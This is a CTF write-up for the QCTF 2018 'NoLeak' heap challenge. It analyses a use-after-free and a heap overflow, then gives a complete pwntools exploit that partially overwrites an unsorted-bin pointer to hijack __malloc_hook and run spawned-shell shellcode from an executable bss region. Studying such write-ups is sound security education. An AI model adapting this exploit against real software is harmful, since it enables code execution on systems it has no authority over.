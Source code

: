 ```yaml
---
title: Partial_write-NoLeak
date: 2018-09-13 21:53:34
tags: pwn heap
layout: post
---
```

qctf2018-Noleak a challenge about partial write 
<!--more-->
# Analysis
[Noleak][1] 
```arm
➜  Desktop checksec NoLeak
[*] '/home/nier/Desktop/NoLeak'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
但是存在RWX 并且没开PIE
# 漏洞挖掘
* 漏洞点1
```arm
  if ( cmd <= 9 )
    free(buf[cmd]); 
```
未将指针置为0且存放指针位置在bss
* 漏洞点2
```arm

    idx = buf[(unsigned int)idx];
    if ( idx )
    {
      putsn("Size: ", 6u);
      nbytes = getn();
      putsn("Data: ", 6u);
      LODWORD(idx) = read(0, buf[v3], nbytes);  // over flower
    }
```
存在溢出
# 利用思路
* 通过上述两个漏洞可以做fast_bin_atk控制唯一已知位置:bss
* 因为main_arenaq前面就是__malloc_hook
* free掉一个大于128bytes的chunk让其挂在unsorted bin上
* partial write 其fd使其指向__malloc_hook+5-0x10 (利用7f作为合法size位)
* shellcode可以利用之前留下的一个指针写入，并且改写指向__malloc_hook+5的指针为__malloc_hook
* 利用指向__malloc_hook的指针写入shellcode的地址
* call malloc触发shellcode

#主要是partial_write 写掉__malloc_hook

# EXP
```python
from pwn import *
bin=ELF("./NoLeak")
def cmd(c):
	p.sendlineafter("choice :",str(c))
def add(size,c):	
	cmd(1)
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",c.ljust(size,"\0"))
def remove(idx):
	cmd(2)
	p.sendlineafter("Index: ",str(idx))
def edit(idx,size,c):
	cmd(3)
	p.sendlineafter("Index: ",str(idx))
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",c.ljust(size,"\0"))


#context.log_level="debug"
p=process("./NoLeak")


add(0x68,"AAAA")
add(0x68,"BBBB")
remove(1)	
payload=p64(0x601000-11)
edit(1,0x8,payload)
add(0x68,"CCCC")
add(0x68,"")	

add(0x68,'a')#0
add(0x68,'b')#1
add(0x88,'c')#2
add(0x68,'d')#4

remove(2)
remove(1)
remove(0)

edit(0,1,'\xc0')
edit(1,0x70,0x68*"A"+p64(0x71))
edit(2,1,'\x05')#use 0x7f to build fake chunk

add(0x68,"A")
add(0x68,"B")
add(0x68,"XXXX")
context.arch="amd64"
shellcode=asm(shellcraft.sh())
sh=0x601005
off=0x601078-0x601005
shellcode=shellcode.ljust(off,"\0")+"\x10"
edit(3,len(shellcode),shellcode)
edit(7,8,p64(sh))

cmd(1)
p.sendlineafter("Size: ","1")
p.interactive(">")
```

[1]:https://github.com/n132/R3t/tree/master/2018-07-15-Qctf/pwn/NoLeak_740